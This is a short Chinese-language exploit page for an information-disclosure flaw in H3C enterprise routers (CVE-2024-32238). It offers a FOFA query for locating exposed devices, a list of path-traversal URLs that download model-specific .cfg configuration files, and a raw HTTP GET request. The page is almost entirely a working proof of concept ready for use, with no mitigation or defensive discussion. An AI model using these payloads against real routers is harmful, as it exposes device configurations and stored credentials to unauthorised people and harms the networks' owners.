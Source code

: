 ## H3C路由器userLogin.asp信息泄漏漏洞(CVE-2024-32238)



## fofa

```
app="H3C-Ent-Router"
```



## poc

```
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../M60.cfg
/userLogin.asp/../actionpolicy_status/../GR8300.cfg
/userLogin.asp/../actionpolicy_status/../GR5200.cfg
/userLogin.asp/../actionpolicy_status/../GR3200.cfg
/userLogin.asp/../actionpolicy_status/../GR2200.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER6300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200.cfg
/userLogin.asp/../actionpolicy_status/../ER5100.cfg
/userLogin.asp/../actionpolicy_status/../ER3260G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3260.cfg
/userLogin.asp/../actionpolicy_status/../ER3200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3200.cfg
/userLogin.asp/../actionpolicy_status/../ER3108GW.cfg
/userLogin.asp/../actionpolicy_status/../ER3108G.cfg
/userLogin.asp/../actionpolicy_status/../ER3100G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3100.cfg
/userLogin.asp/../actionpolicy_status/../ER2200G2.cfg
```

```
GET /userLogin.asp/../actionpolicy_status/../ER8300G2.cfg HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Host:
```

![image-20240524233044125](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242330199.png)

![image-20240524233826952](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242338044.png)